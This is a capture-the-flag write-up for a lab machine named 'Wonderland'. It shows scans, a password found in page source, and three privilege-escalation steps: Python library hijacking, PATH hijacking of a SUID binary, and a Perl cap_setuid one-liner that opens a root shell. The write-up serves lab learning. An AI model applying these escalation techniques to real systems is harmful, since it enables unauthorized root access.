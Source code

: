 # Wonderland Writeup

![fdba6eaf85513262b2a9b12875b0f342](https://user-images.githubusercontent.com/56447720/151762571-4b11cc2d-a580-48d3-8e62-896d58f219f4.jpeg)

## Port Scan 

```bash
└─$ cat nmap_results                                                                                                                    1 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-30 18:59 IST
Nmap scan report for 10.10.82.194 (10.10.82.194)
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds

```
## Directory Scan

```bash
└─$ feroxbuster -u http://10.10.82.194/ -w /usr/share/wordlists/dirb/big.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher                    ver: 2.4.0
───────────────────────────┬──────────────────────
     Target Url            │ http://10.10.82.194/
     Threads               │ 50
     Wordlist              │ /usr/share/wordlists/dirb/big.txt
     Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
     Timeout (secs)        │ 7
     User-Agent            │ feroxbuster/2.4.0
     Config File           │ /etc/feroxbuster/ferox-config.toml
     Recursion Depth       │ 4
     New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        0l        0w        0c http://10.10.82.194/img
301        0l        0w        0c http://10.10.82.194/poem
301        0l        0w        0c http://10.10.82.194/r
301        0l        0w        0c http://10.10.82.194/r/a
301        0l        0w        0c http://10.10.82.194/r/a/b
301        0l        0w        0c http://10.10.82.194/r/a/b/b
[####################] - 4m    122808/122808  0s      found:6       errors:0      
[####################] - 2m     20468/20468   146/s   http://10.10.82.194/
[####################] - 2m     20468/20468   126/s   http://10.10.82.194/img
[####################] - 2m     20468/20468   116/s   http://10.10.82.194/poem
[####################] - 2m     20468/20468   116/s   http://10.10.82.194/r
[####################] - 2m     20468/20468   129/s   http://10.10.82.194/r/a
[####################] - 1m     20468/20468   170/s   http://10.10.82.194/r/a/b

```
- the url was made with word `rabbit`
- Visiting `http://10.10.82.194/r/a/b/b/i/t/` gave `ssh password` in the source code (`view-source:http://10.10.82.194/r/a/b/b/i/t/`)

## User flag 

- The hint said `everything's upside down here`, as `root.txt` was in user's directory, the `user.txt` was in root directory

```bash

alice@wonderland:~$ cat /root/user.txt
thm{<--SNIPPED-->}

```

## User raabit

- `sudo -l` 

```bash
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

- The current directory had a python file that imports random library
- We should create a file `random.py` so python would take it executes it

```python

import os
os.system('/bin/bash')
```
- Save the prgm with name `random.py` 
- Run it

```bash
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ ls
__pycache__  random.py  root.txt  walrus_and_the_carpenter.py
rabbit@wonderland:~$ whoami
rabbit

```
## User hatter

- The binary `teaParty` had suid bit

```bash
rabbit@wonderland:/home/rabbit$ ls
teaParty
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 31 Jan 2022 10:11:17 +0000
Ask very nicely, and I will give you some tea while you wait for him
sure
Segmentation fault (core dumped)

```
- strings wasn't installed on the machine so I used python server and took that file on my local machine

```bash
└─$ strings teaParty 
/lib64/ld-linux-x86-64.so.2
2U~4
libc.so.6
setuid
puts
getchar
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0

<--SNIPPED-->
```
- The binary uses date for throwing out the time
- `/bin/echo -n 'Probably by ' && date --date='next hour' -R`

- we can use same methodology as previous peivilege escalation
- create a file name `date` and add it to `$PATH` variable

```bash
rabbit@wonderland:/home/rabbit$ cat date
#!/bin/bash

python3 ../alice/random.py

```
- I've used random.py file which we used earlier, you can replace the python3 line with `/bin/bash`

- Run the file to get hatter user 

```bash
rabbit@wonderland:/home/rabbit$ ls
date  teaParty
rabbit@wonderland:/home/rabbit$ chmod +x date 
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
```
- password file 
- The hatter's directory had password file for the user hatter 

```bash
hatter@wonderland:/home/hatter$ cat password.txt 
<--SNIPPED-->
hatter@wonderland:/home/hatter$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```
- We still have group id as rabbit
- use the password to escalate privileges : `ssh hatter@localhost`

```bash
hatter@wonderland:~$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)

```

## Root User

- Checked for capabilities

```bash
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
- Perl has an setuid
- GTFO bins have payload for capabilities, suid, sudo, etc :  `https://gtfobins.github.io/gtfobins/perl/`
- Use `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'` to get root shell 

```bash
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id                
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# cat /home/alice/root.txt
thm{<--SNIPPED-->}

```

